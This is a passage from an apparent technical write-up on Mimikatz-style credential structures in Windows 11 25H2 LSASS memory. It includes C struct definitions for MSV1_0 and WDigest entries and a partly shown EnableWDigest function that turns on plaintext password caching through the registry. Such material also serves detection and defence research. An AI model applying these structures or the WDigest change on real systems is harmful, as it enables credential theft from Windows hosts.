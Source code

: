 1. **Additional Obfuscation Fields**: More `unk*` fields inserted to break hardcoded offsets
2. **Structure Padding Changes**: Different alignment on x64 vs x86
3. **Credential Pointer Location**: Moved from fixed offset to dynamic location
4. **New Anti-Analysis Techniques**: Encrypted pointers, XOR obfuscation

### MSV1_0 Credentials Structure

```c
typedef struct _KIWI_MSV1_0_CREDENTIALS {
    struct _KIWI_MSV1_0_CREDENTIALS *next;
    DWORD AuthenticationPackageId;
    PKIWI_MSV1_0_PRIMARY_CREDENTIALS PrimaryCredentials;
} KIWI_MSV1_0_CREDENTIALS, *PKIWI_MSV1_0_CREDENTIALS;

typedef struct _KIWI_MSV1_0_PRIMARY_CREDENTIALS {
    struct _KIWI_MSV1_0_PRIMARY_CREDENTIALS *next;
    LSA_UNICODE_STRING Primary;
    LSA_UNICODE_STRING Credentials;  // Encrypted with LsaProtectMemory
} KIWI_MSV1_0_PRIMARY_CREDENTIALS, *PKIWI_MSV1_0_PRIMARY_CREDENTIALS;
```

## WDigest Credential Structures

### Windows 11 25H2 WDigest Structure

```c
typedef struct _KIWI_WDIGEST_LIST_ENTRY_25H2 {
    struct _KIWI_WDIGEST_LIST_ENTRY_25H2 *Flink;
    struct _KIWI_WDIGEST_LIST_ENTRY_25H2 *Blink;
    ULONG UsageCount;
    struct _KIWI_WDIGEST_LIST_ENTRY_25H2 *This;
    LUID LocallyUniqueIdentifier;
    LSA_UNICODE_STRING UserName;
    LSA_UNICODE_STRING Domaine;
    LSA_UNICODE_STRING Password;  // Encrypted with LsaProtectMemory
    HANDLE hSemaphore;
    // Additional fields for Windows 11 25H2
    PVOID unk0;
    PVOID unk1;
} KIWI_WDIGEST_LIST_ENTRY_25H2, *PKIWI_WDIGEST_LIST_ENTRY_25H2;
```

### WDigest Status on Windows 11 25H2

**Important**: By default, WDigest is **disabled** on Windows 11. The UseLogonCredential registry key is set to 0:

```
HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest\UseLogonCredential = 0
```

To enable (requires admin + reboot + new logon):
```c
BOOL EnableWDigest() {
    HKEY hKey;
    DWORD dwValue = 1;

    if (RegOpenKeyEx(HKEY_LOCAL_MACHINE,
        L"SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest",
        0, KEY_SET_VALUE, &hKey) == ERROR_SUCCESS) {

        RegSetValueEx(hKey, L"UseLogonCredential", 0, REG_DWORD,
                     (BYTE*)&dwValue, sizeof(DWORD));
        RegCloseKey(hKey);
        return TRUE;
    }
```